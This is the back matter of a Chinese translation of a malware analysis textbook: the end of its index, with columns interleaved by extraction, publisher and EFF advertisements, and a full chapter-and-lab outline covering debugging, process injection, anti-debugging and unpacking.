Windows 注册表。*见*注册表

WriteFile 函数，137，215，219，585

(Windows)

传递给句柄的来源，623

Windows Sockets (Winsock) API，313

WriteProcessMemory 函数，255，256，

Windows 更新二进制文件

423，463，586，590，593

创建处理器的恶意软件，

和直接注入，257

605–606

和进程注入，254

移动到临时目录，605

*ws2_32.dll*，17，144，483

字符串临时移动，606

从中导入，521

Windows 虚拟机，57

WSAGetLastError 函数，144，313

索引

**765**

[www.it-ebooks.info](http://www.it-ebooks.info/)

WSASocket 函数，542，727

x86 反汇编，65–85

WSAStartup 函数，144，313，463，

抽象级别，66–67

542，727

反汇编，67–68

*wshtcpip.dll*，483

x87 浮点单元（FPU），

*WSock32.dll*，17

411–413

*wupdmgr.exe*，604

Xen，31

启动，606

XOR 加密，271–276

破解密码，271–273

**X**

在 IDA Pro 中识别循环，

274–276

x 命令，WinDbg，213

保留单字节的 NULL，

x64 架构，441

273–274

调用约定差异

XOR 编码字符串，解码，

和堆栈使用，443–447

542–543

异常处理，445

XOR 编码循环，620–621

具有组件的恶意软件，729

XOR 指令，76，596

x64 Windows，内核问题，

表单，275

226–227

搜索，612–613

x86-64 架构，441

搜索非零值，608

x86 架构，68–85

XOR 逻辑运算符，在 x86 中

分支，80–81

架构，75

C 主方法和偏移量，83–84

xref. *参见*交叉引用（xref）

代码类型和数据访问，408

Xrefs 窗口，在 IDA Pro 中，96

条件语句，80

文档手册，85

**Y**

指令，69–70

指令集，通用

YARA，475

寄存器，409

Yuschuk，Oleh，179

主内存，69

NOP 指令，76

**Z**

操作码和字节序，70

Zero Wine，475

操作数，70

零日漏洞利用，33，245

寄存器，71–73，374

ZF（零）标志，72，80

反汇编指令，81–83

僵尸，234

搜索易受攻击的指令，

ZwContinue 函数，386

670–672

ZwCreateFile 函数，219

简单指令，73–76

ZwDeviceIoControlFile 函数，内联

栈，77–80

钩子，249–250

函数调用，77–78

ZwUnmapViewOfSection 函数，258

布局，78–80

Zynamics BinDiff，106

**766**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

电子前沿基金会（EFF）是捍卫数字世界公民自由的首要组织。我们捍卫互联网上的言论自由，反对非法监控，促进创新者开发新的数字技术，并努力确保我们享有的权利和自由得到增强——

而不是被侵蚀——随着我们使用技术的增长。 

隐私 EFF 已起诉电信巨头 AT&T，因为它允许 NSA 无限制地访问数百万客户的私人通信。eff.org/nsa FREE SPEECH EFF 的程序员权利项目正在捍卫程序员和安全研究人员发布其发现的权利，无需担心法律挑战。

eff.org/freespeech

INNOVATION EFF 的专利破坏项目挑战了威胁技术创新的过度宽泛的专利。eff.org/patent

FAIR USE EFF 正在反对那些会剥夺你以任何方式接收和使用空中电视广播权利的禁止性标准。eff.org/IP/fairuse 透明度 EFF 开发了瑞士网络测试工具，为个人提供测试隐蔽流量过滤的工具。eff.org/transparency 国际 EFF 正在努力确保国际条约不会限制我们的言论自由、隐私或数字消费者权利。eff.org/global

EFF 是一个会员支持的组织。现在加入！www.eff.org/support

[www.it-ebooks.info](http://www.it-ebooks.info/)

更新

访问 *http://nostarch.com/malware.htm* 获取更新、勘误和其他信息。

*更多无废话的书籍来自*

NO STARCH PRESS

METASPLOIT

HACKING，第 2 版

《一个漏洞猎人的日记》

《渗透测试指南》

《利用的艺术》

《穿越荒野的导游》

*由* DAVID KENNEDY, JIM O’GORMAN

*由* JON ERICKSON

软件安全

DEVON KEARNS, *和* MATI AHARONI

2008 年 2 月，488 页含 CD，$49.95

*由* TOBIAS KLEIN

2011 年 7 月，328 页，$49.95

ISBN 978-1-59327-144-2

2011 年 11 月，208 页，$39.95

ISBN 978-1-59327-288-3

ISBN 978-1-59327-385-9

错综复杂的网络

IDA PRO 书籍，

PRACTICAL PACKET

现代网络安全指南

第 2 版

分析，第 2 版

应用

世界上非官方指南

使用 Wireshark 解决

*由* MICHAL ZALEWSKI

最受欢迎的反汇编器

实际网络问题

2011 年 11 月，320 页，$49.95

*由* CHRIS EAGLE

*由* CHRIS SANDERS

ISBN 978-1-59327-388-0

2011 年 7 月，672 页，$69.95

2011 年 7 月，280 页，$49.95

ISBN 978-1-59327-289-0

ISBN 978-1-59327-266-1

**电话：**

**电子邮件：**

800.420.7240 OR

SALES@NOSTARCH.COM

415.863.9900

**网站：**

WWW.NOSTARCH.COM

[www.it-ebooks.info](http://www.it-ebooks.info/)

[www.it-ebooks.info](http://www.it-ebooks.info/)

# 文档大纲

+   警告

+   关于作者

    +   关于技术审稿人

    +   关于贡献作者

+   前言

+   致谢

    +   个人感谢

+   前言

    +   什么是恶意软件分析？

    +   先决条件

    +   实用、动手学习

    +   本书有什么内容？

+   0：恶意软件分析入门

    +   恶意软件分析的目标

    +   恶意软件分析技术

        +   基本静态分析

        +   基本动态分析

        +   高级静态分析

        +   高级动态分析

    +   恶意软件的类型

    +   恶意软件分析的一般规则

+   第一部分：基本分析

    +   1：基本静态技术

        +   防病毒扫描：一个有用的第一步

        +   哈希：恶意软件的指纹

        +   查找字符串

        +   打包和混淆的恶意软件

            +   打包文件

            +   使用 PEiD 检测打包器

        +   可移植可执行文件格式

        +   链接库和函数

            +   静态、运行时和动态链接

            +   使用依赖关系查看器探索动态链接函数

            +   导入函数

            +   导出函数

        +   实践中的静态分析

            +   PotentialKeylogger.exe：一个未打包的可执行文件

            +   PackedProgram.exe：一个死胡同

        +   PE 文件头和部分

            +   使用 PEview 检查 PE 文件

            +   使用资源 Hacker 查看资源部分

            +   使用其他 PE 文件工具

            +   PE 头摘要

        +   结论

        +   实验 1-1

            +   问题

        +   实验 1-2

            +   问题

        +   实验 1-3

            +   问题

        +   实验 1-4

            +   问题

    +   2: 虚拟机中的恶意软件分析

        +   虚拟机的结构

        +   创建您的恶意软件分析机器

            +   配置 VMware

        +   使用您的恶意软件分析机器

            +   将恶意软件连接到互联网

            +   连接和断开外围设备

            +   拍摄快照

            +   从虚拟机传输文件

        +   使用 VMware 进行恶意软件分析的风险

        +   记录/回放：逆向运行您的计算机

        +   结论

    +   3: 基本动态分析

        +   沙盒：快速且简单的做法

            +   使用恶意软件沙盒

            +   沙盒的缺点

        +   运行恶意软件

        +   使用进程监视器进行监控

            +   Procmon 显示

            +   Procmon 中的过滤

        +   使用进程探索器查看进程

            +   进程探索器显示

            +   使用验证选项

            +   比较字符串

            +   使用依赖关系查看器

            +   分析恶意文档

        +   使用 Regshot 比较注册表快照

        +   伪造网络

            +   使用 ApateDNS

            +   使用 Netcat 进行监控

        +   使用 Wireshark 进行数据包嗅探

        +   使用 INetSim

        +   实践中的基本动态工具

        +   结论

        +   实验 3-1

            +   问题

        +   实验 3-2

            +   问题

        +   实验 3-3

            +   问题

        +   实验 3-4

            +   问题

+   第二部分：高级静态分析

    +   4: x86 汇编速成课程

        +   抽象层次

        +   逆向工程

        +   x86 架构

            +   主内存

            +   指令

            +   指令集和字节序

            +   操作数

            +   寄存器

            +   简单指令

            +   栈

            +   条件语句

            +   分支

            +   Rep 指令

            +   C 主方法和偏移量

            +   更多信息：Intel x86 架构手册

        +   结论

    +   5: IDA Pro

        +   加载可执行文件

        +   IDA Pro 接口

            +   反汇编窗口模式

            +   有用的分析窗口

            +   返回默认视图

            +   在 IDA Pro 中导航

            +   搜索

        +   使用交叉引用

            +   代码交叉引用

            +   数据交叉引用

        +   分析函数

        +   使用图形选项

        +   增强反汇编

            +   重命名位置

            +   注释

            +   格式化操作数

            +   使用命名常量

            +   重新定义代码和数据

        +   通过插件扩展 IDA

            +   使用 IDC 脚本

            +   使用 IDAPython

            +   使用商业插件

        +   结论

        +   实验 5-1

            +   问题

    +   6: 在汇编中识别 C 代码结构

        +   全局变量与局部变量

        +   反汇编算术运算

        +   识别 if 语句

            +   使用 IDA Pro 图形化分析函数

            +   识别嵌套 if 语句

        +   识别循环

            +   寻找 for 循环

            +   寻找 while 循环

        +   理解函数调用约定

            +   cdecl

            +   stdcall

            +   fastcall

            +   压栈与移动

        +   分析 switch 语句

            +   If 风格

            +   跳转表

        +   反汇编数组

        +   识别结构体

        +   分析链表遍历

        +   结论

        +   实验 6-1

            +   问题

        +   实验 6-2

            +   问题

        +   实验 6-3

            +   问题

        +   实验 6-4

            +   问题

    +   7: 分析恶意 Windows 程序

        +   Windows API

            +   类型和匈牙利命名法

            +   手柄

            +   文件系统函数

            +   特殊文件

        +   Windows 注册表

            +   注册表根键

            +   Regedit

            +   自动运行的程序

            +   常见注册表函数

            +   实际中分析注册表代码

            +   使用 .reg 文件进行注册表脚本编写

        +   网络 API

            +   与伯克利兼容的套接字

            +   网络的服务器端和客户端

            +   WinINet API

        +   跟踪运行中的恶意软件

            +   DLL

            +   进程

            +   线程

            +   使用互斥锁进行进程间协调

            +   服务

            +   组件对象模型

            +   异常：出错时的情况

        +   内核模式与用户模式

        +   本地 API

        +   结论

        +   实验 7-1

            +   问题

        +   实验 7-2

            +   问题

        +   实验 7-3

            +   问题

+   第三部分：高级动态分析

    +   8: 调试

        +   源级与汇编级调试器

        +   内核模式与用户模式调试

        +   使用调试器

            +   单步执行

            +   单步执行与进入执行

            +   使用断点暂停执行

        +   异常

            +   首次和第二次机会异常

            +   常见异常

        +   使用调试器修改执行

        +   实际中修改程序执行

        +   结论

    +   9: OllyDbg

        +   加载恶意软件

            +   打开可执行文件

            +   附加到运行进程

        +   OllyDbg 接口

        +   内存映射

            +   重定位

        +   查看线程和堆栈

        +   执行代码

        +   断点

            +   软件断点

            +   条件断点

            +   硬件断点

            +   内存断点

        +   加载 DLL

        +   跟踪

            +   标准回溯

            +   调用栈

            +   运行跟踪

            +   追踪毒藤

        +   异常处理

        +   修补

        +   分析壳代码

        +   辅助功能

        +   插件

            +   OllyDump

            +   隐藏调试器

            +   命令行

            +   书签

        +   可脚本调试

        +   结论

        +   实验 9-1

            +   问题

        +   实验 9-2

            +   问题

        +   实验 9-3

            +   问题

    +   10: 使用 WinDbg 进行内核调试

        +   驱动程序和内核代码

        +   设置内核调试

        +   使用 WinDbg

            +   从内存中读取

            +   使用算术运算符

            +   设置断点

            +   列出模块

        +   微软符号

            +   搜索符号

            +   查看结构信息

            +   配置 Windows 符号

        +   实践中的内核调试

            +   查看用户空间代码

            +   查看内核模式代码

            +   查找驱动程序对象

        +   Rootkits

            +   实践中的 Rootkit 分析

            +   中断

        +   加载驱动程序

        +   Windows Vista、Windows 7 和 x64 版本的内核问题

        +   结论

        +   实验 10-1

            +   问题

        +   实验 10-2

            +   问题

        +   实验 10-3

            +   问题

+   第四部分：恶意软件功能

    +   11: 恶意软件行为

        +   下载器和启动器

        +   后门

            +   反向壳

            +   远程访问木马

            +   僵尸网络

            +   远程访问木马与僵尸网络比较

        +   凭证窃取器

            +   GINA 侦听

            +   哈希转储

            +   按键记录

        +   持久化机制

            +   Windows 注册表

            +   被木马化的系统二进制文件

            +   DLL 加载顺序劫持

        +   权限提升

            +   使用 SeDebugPrivilege

        +   掩盖行踪——用户模式根 kit

            +   IAT 钩子

            +   内联钩子

        +   结论

        +   实验 11-1

            +   问题

        +   实验 11-2

            +   问题

        +   实验 11-3

            +   问题

    +   12: 隐秘的恶意软件启动

        +   启动器

        +   进程注入

            +   DLL 注入

            +   直接注入

        +   进程替换

        +   钩子注入

            +   本地和远程钩子

            +   使用钩子的键盘记录器

            +   使用 SetWindowsHookEx

            +   线程定位

        +   绕过

        +   APC 注入

            +   从用户空间进行 APC 注入

            +   从内核空间进行 APC 注入

        +   结论

        +   实验 12-1

            +   问题

        +   实验 12-2

            +   问题

        +   实验 12-3

            +   问题

        +   实验 12-4

            +   问题

    +   13: 数据编码

        +   分析编码算法的目标

        +   简单的加密算法

            +   凯撒密码

            +   XOR

            +   其他简单的编码方案

            +   Base64

        +   常见的加密算法

            +   识别字符串和导入

            +   搜索加密常数

            +   搜索高熵内容

        +   自定义编码

            +   识别自定义编码

            +   自定义编码对攻击者的优势

        +   解码

            +   自解码

            +   手动编程解码函数

            +   使用仪器进行通用解密

        +   结论

        +   实验 13-1

            +   问题

        +   实验 13-2

            +   问题

        +   实验 13-3

            +   问题

    +   14: 针对恶意软件的网络签名

        +   网络对策

            +   观察恶意软件在其自然栖息地

            +   恶意活动的迹象

            +   OPSEC = 操作安全

        +   安全地在线调查攻击者

            +   间接策略

            +   获取 IP 地址和域名信息

        +   基于内容网络对策

            +   使用 Snort 进行入侵检测

            +   深入了解

        +   结合动态和静态分析技术

            +   过度分析的危险

            +   明目张胆地隐藏

            +   理解周围代码

            +   找到网络代码

            +   了解网络内容来源

            +   硬编码数据与临时数据

            +   识别和利用编码步骤

            +   创建签名

            +   分析解析例程

            +   针对多个元素

        +   理解攻击者的视角

        +   结论

        +   实验 14-1

            +   问题

        +   实验 14-2

            +   问题

        +   实验 14-3

            +   问题

+   第五部分：反逆向工程

    +   15: 反反汇编

        +   理解反反汇编

        +   击败反汇编算法

            +   线性反汇编

            +   面向流程的反汇编

        +   反反汇编技术

            +   具有相同目标的跳转指令

            +   具有常量条件的跳转指令

            +   不可能的反汇编

            +   使用 IDA Pro 取消指令

        +   模糊流程控制

            +   函数指针问题

            +   在 IDA Pro 中添加缺失的代码交叉引用

            +   返回指针滥用

            +   误用结构化异常处理程序

        +   阻止栈帧分析

        +   结论

        +   实验 15-1

            +   问题

        +   实验 15-2

            +   问题

        +   实验 15-3

            +   问题

    +   16: 反调试

        +   Windows 调试器检测

            +   使用 Windows API

            +   手动检查结构

            +   检查系统残留

        +   识别调试器行为

            +   INT 扫描

            +   执行代码校验和

            +   时间检查

        +   干扰调试器功能

            +   使用 TLS 回调

            +   使用异常

            +   插入中断

        +   调试器漏洞

            +   PE 头部漏洞

            +   OutputDebugString 漏洞

        +   结论

        +   实验 16-1

            +   问题

        +   实验 16-2

            +   问题

        +   实验 16-3

            +   问题

    +   17: 反虚拟机技术

        +   VMware 艺术品

            +   绕过 VMware 艺术品搜索

            +   检查内存痕迹

        +   易受攻击的指令

            +   使用红药丸反虚拟机技术

            +   使用无药技术

            +   查询 I/O 通信端口

            +   使用 str 指令

            +   反虚拟机 x86 指令

            +   在 IDA Pro 中突出显示反虚拟机

            +   使用 ScoopyNG

        +   调整设置

        +   逃离虚拟机

        +   结论

        +   实验 17-1

            +   问题

        +   实验 17-2

            +   问题

        +   实验 17-3

            +   问题

    +   18: 打包与解包

        +   打包结构

            +   解包占位符

            +   加载可执行文件

            +   解析导入

            +   尾部跳转

            +   解包图解

        +   识别打包程序

            +   打包程序的指标

            +   熵计算

        +   解包选项

        +   自动化解包

        +   手动解包

            +   使用导入重建器重建导入表

            +   查找 OEP

            +   手动修复导入表

        +   常见打包器的技巧和窍门

            +   UPX

            +   PECompact

            +   ASPack

            +   Petite

            +   WinUpack

            +   Themida

        +   在不完全解包的情况下分析

        +   打包 DLL

        +   结论

        +   实验

+   第六部分：专题

    +   19: 检查壳代码

        +   加载壳代码进行分析

        +   位置无关代码

        +   识别执行位置

            +   使用 call/pop

            +   使用 fnstenv

        +   手动符号解析

            +   在内存中查找 kernel32.dll

            +   解析 PE 导出数据

            +   使用哈希导出名称

        +   一个完整的 Hello World 示例

        +   壳代码编码

        +   NOP 滑雪道

        +   查找壳代码

        +   结论

        +   实验 19-1

            +   问题

        +   实验 19-2

            +   问题

        +   实验 19-3

            +   问题

    +   20: C++ 分析

        +   面向对象编程

            +   this 指针

            +   重载和混淆

            +   继承和函数重写

        +   虚函数与非虚函数

            +   V 表的用途

            +   识别虚表

        +   创建和销毁对象

        +   结论

        +   实验 20-1

            +   问题

        +   实验 20-2

            +   问题

        +   实验 20-3

            +   问题

    +   21: 64 位恶意软件

        +   为什么是 64 位恶意软件？

        +   x64 架构的差异

            +   x64 调用约定和堆栈使用的差异

            +   64 位异常处理

        +   Windows 64 位上的 32 位 Windows

        +   64 位提示恶意软件功能

        +   结论

        +   实验 21-1

            +   问题

        +   实验 21-2

            +   问题

+   A: 重要的 Windows 函数

+   B: 恶意软件分析工具

+   C: 实验解答

    +   第一章

        +   实验 1-1 解答

            +   简答

            +   详细分析

        +   实验 1-2 解答

            +   简答

            +   详细分析

        +   实验 1-3 解答

            +   简答

            +   详细分析

        +   实验 1-4 解答

            +   简答

            +   详细分析

    +   第三章

        +   实验 3-1 解答

            +   简答

            +   详细分析

        +   实验 3-2 解答

            +   简答

            +   详细分析

        +   实验 3-3 解答

            +   简答

            +   详细分析

        +   实验 3-4 解答

            +   简答

            +   详细分析

    +   第五章

        +   实验 5-1 解答

            +   简答

            +   详细分析

    +   第六章

        +   实验 6-1 解答

            +   简答

            +   详细分析

        +   实验 6-2 解答

            +   简答

            +   详细分析

        +   实验 6-3 解答

            +   简答

            +   详细分析

        +   实验 6-4 解答

            +   简答

            +   详细分析

    +   第七章

        +   实验 7-1 解答

            +   简答

            +   详细分析

        +   实验 7-2 解答

            +   简答

            +   详细分析

        +   实验 7-3 解答

            +   简答题

            +   详细分析

    +   第九章

        +   实验 9-1 解答

            +   简答题

            +   详细分析

        +   实验 9-2 解答

            +   简答题

            +   详细分析

        +   实验 9-3 解答

            +   简答题

            +   详细分析

    +   第十章

        +   实验 10-1 解答

            +   简答题

            +   详细分析

        +   实验 10-2 解答

            +   简答题

            +   详细分析

        +   实验 10-3 解答

            +   简答题

            +   详细分析

    +   第十一章

        +   实验 11-1 解答

            +   简答题

            +   详细分析

        +   实验 11-2 解答

            +   简答题

            +   详细分析

        +   实验 11-3 解答

            +   简答题

            +   详细分析

    +   第十二章

        +   实验 12-1 解答

            +   简答题

            +   详细分析

        +   实验 12-2 解答

            +   简答题

            +   详细分析

        +   实验 12-3 解答

            +   简答题

            +   详细分析

        +   实验 12-4 解答

            +   简答题

            +   详细分析

    +   第十三章

        +   实验 13-1 解答

            +   简答题

            +   详细分析

        +   实验 13-2 解答

            +   简答题

            +   详细分析

        +   实验 13-3 解答

            +   简答题

            +   详细分析

    +   第十四章

        +   实验 14-1 解答

            +   简答题

            +   详细分析

        +   实验 14-2 解答

            +   简答题

            +   详细分析

        +   实验 14-3 解答

            +   简答题

            +   详细分析

    +   第十五章

        +   Lab 15-1 解答

            +   简答

            +   详细分析

        +   Lab 15-2 解答

            +   简答

            +   详细分析

        +   Lab 15-3 解答

            +   简答

            +   详细分析

    +   第十六章

        +   Lab 16-1 解答

            +   简答

            +   详细分析

        +   Lab 16-2 解答

            +   简答

            +   详细分析

        +   Lab 16-3 解答

            +   简答

            +   详细分析

    +   第十七章

        +   Lab 17-1 解答

            +   简答

            +   详细分析

        +   Lab 17-2 解答

            +   简答

            +   详细分析

        +   Lab 17-3 解答

            +   简答

            +   详细分析

    +   第十八章

        +   Lab 18-1 解答

        +   Lab 18-2 解答

        +   Lab 18-3 解答

        +   Lab 18-4 解答

        +   Lab 18-5 解答

    +   第十九章

        +   Lab 19-1 解答

            +   简答

            +   详细分析

        +   Lab 19-2 解答

            +   简答

            +   详细分析

        +   Lab 19-3 解答

            +   简答

            +   详细分析

    +   第二十章

        +   Lab 20-1 解答

            +   简答

            +   详细分析

        +   Lab 20-2 解答

            +   简答

            +   详细分析

        +   Lab 20-3 解答

            +   简答

            +   详细分析

    +   第二十一章

        +   Lab 21-1 解答

            +   简答

            +   详细分析

        +   Lab 21-2 解答

            +   简答

            +   详细分析

+   索引
